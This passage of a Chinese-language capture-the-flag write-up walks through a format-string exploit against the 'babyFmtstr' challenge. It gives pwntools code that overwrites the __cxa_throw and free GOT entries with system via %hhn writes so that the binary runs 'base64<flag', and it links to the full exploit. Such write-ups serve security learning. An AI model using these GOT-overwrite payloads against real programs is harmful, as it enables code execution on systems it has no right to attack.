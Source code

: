 > 当输入的字符串中出现`0x7f`或是小于`0x1f`的字节时，就会抛出异常。

在不抛出异常的时候，这些异常处理函数是用不到的，所以可以选择修改异常处理函数的GOT表，比如改`__cxa_throw`

```python
system = libcbase + libc.sym['system']
info_addr('system',system)

arg0=(system)&0xff
arg1=(system&0xff00)>>8
arg2=(system&0xff0000)>>16
arg3=(system&0xff000000)>>24
arg4=(system&0xff00000000)>>32
arg5=(system&0xff0000000000)>>40


fmt1 = '%'+str(arg0)+'c%12$hhn%'+str((arg1-arg0+0x100)%0x100)+'c%13$hhn'
fmt1 = fmt1.ljust(32,'B')
fmt1+= p64(elf.got['__cxa_throw'])+p64(elf.got['__cxa_throw']+1)

sl(fmt1)
sl('20')
sl(cyclic(10))

fmt2 = '%'+str(arg2)+'c%12$hhn%'+str((arg3-arg2+0x100)%0x100)+'c%13$hhn'
fmt2 = fmt2.ljust(32,'C')
fmt2+= p64(elf.got['__cxa_throw']+2)+p64(elf.got['__cxa_throw']+3)

sl(fmt2)
sl('20')
sl(cyclic(10))

fmt3 = '%'+str(arg4)+'c%12$hhn%'+str((arg5-arg4+0x100)%0x100)+'c%13$hhn'
fmt3 = fmt3.ljust(32,'C')
fmt3+= p64(elf.got['__cxa_throw']+4)+p64(elf.got['__cxa_throw']+5)

sl(fmt3)
sl('20')
sl(cyclic(10))
```

> 一次改两字节，一共改三次

改完之后还需要去触发这个函数，这个不难，直接再改一次free的got表，改到`__cxa_throw@plt`即可。

```nasm
   0x400a30 <__cxa_throw@plt>:	jmp    QWORD PTR [rip+0x20163a]
   0x400a36 <__cxa_throw@plt+6>:	push   0xb
   0x400a3b <__cxa_throw@plt+11>:	jmp    0x400970
```

> 这样既可以利用`free`的参数`"base64<flag"`，又可以执行`system`

```python
fmt4 = 'base64<flag&&%2595c%12$hnAAAAAAA'+p64(elf.got['free'])
sl(fmt4)
sl('20')
sl('base64<flag')
```

>最后一次了，不需要收数据了，就用的`%hn`

最终，执行`system("base64<flag")`打印flag

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/CTFShow-36D/pwn/PWN_babyFmtstr) 



